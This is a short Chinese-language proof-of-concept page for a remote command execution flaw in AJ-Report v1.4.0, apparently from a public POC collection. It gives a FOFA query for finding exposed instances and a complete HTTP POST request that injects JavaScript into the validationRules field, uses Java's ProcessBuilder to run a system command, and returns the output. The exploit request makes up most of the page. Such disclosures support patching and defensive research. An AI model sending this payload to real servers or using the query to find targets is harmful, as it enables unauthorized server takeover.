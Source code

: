 ## AJ-Report开源数据大屏存在远程命令执行漏洞

该平台可以通过post方式在validationRules参数对应值中进行命令执行，可以获得服务器权限，登陆管理后台接管大屏。如果被不法分子利用，书写反动标语，危害后果十分严重。

## 影响版本
```
最新版本v1.4.0
```

## fofa
```
title="AJ-Report"
```
![image](https://github.com/user-attachments/assets/dd5db0ed-0ba6-4368-b27e-f5d91ddf7af5)



## poc
```
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

![image](https://github.com/wy876/POC/assets/139549762/8e96cef4-ea6f-4600-b622-9deb360ae42e)


## 漏洞来源
- https://gitee.com/anji-plus/report/issues/I9HCB2
